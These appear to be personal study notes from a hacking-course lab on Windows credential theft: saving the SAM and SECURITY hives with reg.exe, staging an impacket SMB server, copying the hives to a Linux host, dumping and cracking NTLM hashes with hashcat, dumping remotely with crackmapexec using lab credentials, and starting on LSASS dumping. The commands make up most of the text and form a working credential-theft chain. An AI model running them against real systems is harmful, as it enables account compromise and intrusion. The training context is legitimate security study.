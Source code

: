 <figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Reg.exe can creat backups on hives.&#x20;

```cmd-session
reg.exe save hklm\security C:\security.save
```

Create a SMB server on our linux machine

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <SHARE_NAME<SHARE_LOCATION>
```

On windows

```cmd-session
move sam.save \\172.20.165.32\testShare
```

On linux dump the secrets

```shell-session
python3 SY -sam sam.save -security security.save -system system.save LOCAL
```

Cracking the hashes

```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Remote dumpting

```shell-session
crackmapexec smb 10.129.202.137 --local-auth -u bob -p HTB_@cademy_stdnt! --sam/lsa
```

Sam stores the passwords and LSA checks them but it is possible to leak LSA passwords too!

As a side project I dumped my SAM hashes on my local machine added my password to the rockyou.txt list and cracked it!

# Attacking LSASS

Create a dump file in task manager of Local Security Auth Process. I have LSAP protection on so I could not do this without a restart.

Can also to this in  pw. Also blocked on my device

```powershell-session
Get-Process lsass
```
